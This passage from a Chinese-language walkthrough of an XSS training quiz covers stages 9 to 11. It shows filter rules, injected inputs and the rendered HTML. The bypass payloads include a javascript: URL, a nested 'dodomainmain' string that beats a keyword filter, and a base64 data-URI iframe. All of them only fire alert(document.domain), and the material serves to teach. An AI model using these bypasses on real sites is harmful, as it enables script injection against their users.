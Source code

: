 	javascript:alert(document.domain);

输出内容

	 <a href="javascript:alert(document.domain);">javascript:alert(document.domain);</a>

##### Stage #9

	UTF-7 XSS

找支持`utf-7`的浏览器测试。

##### [Stage #10](http://xss-quiz.int21h.jp/stage00010.php?sid=75ce4414d3193f63f21839b148ea69d858505a44)

	s/domain//g; 

考虑的不是完全，只是过滤了一部分。

输入

	"><script>alert(document.domain);</script>

输出的内容

	 <input type="text" name="p1" size="50" value=""><script>alert(document.);</script>"> 

过滤了`domain`

输入

	"><script>alert(document.dodomainmain);</script>

输出

	<input type="text" name="p1" size="50" value=""><script>alert(document.domain);</script>"> 


##### [Stage #11](http://xss-quiz.int21h.jp/stage11th.php?sid=798d6e75dd45a35b0345cbf827d388a82369cf73)

	"s/script/xscript/ig;" and "s/on[a-z]+=/onxxx=/ig;" and "s/style=/stxxx=/ig;"

过滤一些`script`和`on`以及`style`标签，需要考虑一些其他的。很明显可以使用`Base64`编码，是它执行`iframe`标签。

	<iframe src="data:text/html;base64, .... base64 encoded HTML data ....">


输入

	"><script>alert(document.domain);</script>

输出

	<input type="text" name="p1" size="50" value=""><xscript>alert(document.domain);</xscript>">


通过编码绕过。使用`inframe`

`<script>alert(document.domain);</script>`通过`Base64`编码。

	"><iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydChkb2N1bWVudC5kb21haW4pOzwvc2NyaXB0Pg=="></iframe>

输出
